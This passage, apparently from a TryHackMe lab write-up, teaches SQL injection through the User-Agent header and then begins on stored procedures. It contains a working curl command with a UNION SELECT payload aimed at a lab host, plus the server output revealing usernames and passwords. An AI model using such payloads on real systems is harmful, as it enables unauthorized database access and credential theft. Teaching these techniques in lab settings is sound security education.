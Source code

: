 We need to send this payload as part of the User-Agent header in our HTTP request to inject this payload, which could be done using tools like Burp Suite or cURL. We will use the curl command-line tool to send an HTTP request with a custom User-Agent header. Open a Terminal and access your command line interface. Use the following command to send the request with the custom `User-Agent` header:

Example Terminal

```shell-session
user@tryhackme$ curl -H "User-Agent: ' UNION SELECT username, password FROM user; # " http://MACHINE_IP/httpagent/
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>SQL Injection </title>
 rel="stylesheet">
</head>
<body class="bg-gray-100">
    <div class="container mx-auto p-8">
        <h1 class="text-4xl font-bold mb-8 text-center">HTTP Logs</h1>
        <div class="bg-white p-6 rounded-lg shadow-lg">

<p class='text-gray-600 text-sm mb-4'>Generated SQL Query: <span class='text-red-500'>SELECT * FROM logs WHERE user_Agent = '' UNION SELECT username, password FROM user; #'</span></p><div class='p-4 bg-gray-100 rounded shadow mb-4'><p class='font-bold'>id: <span class='text-gray-700'>bob</span></p><p class='font-bold'>user_Agent: <span class='text-gray-700'>bob@123</span></p></div><div class='p-4 bg-gray-100 rounded shadow mb-4'><p class='font-bold'>id: <span class='text-gray-700'>attacker</span></p><p class='font-bold'>user_Agent: <span class='text-gray-700'>tesla</span></p></div>
        </div>
    </div>
</body>
</html>
```

The server's response will be displayed in the terminal. If the SQL injection is successful, you will see the extracted data (usernames and passwords) in the response.

### Exploiting Stored Procedures

Stored procedures are routines stored in the database that can perform various operations, such as inserting, updating, or querying data. While stored procedures can help improve performance and ensure consistency, they can also be vulnerable to SQL injection if not properly handled.

\


<figure><img src="https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1716922785792" alt=""><figcaption></figcaption></figure>

Stored procedures are precompiled SQL statements that can be executed as a single unit. They are stored in the database and can be called by applications to perform specific tasks. Stored procedures can accept parameters, which can make them flexible and powerful. However, if these parameters are not properly sanitised, they can introduce SQL injection vulnerabilities.

Consider a stored procedure designed to retrieve user data based on a username:
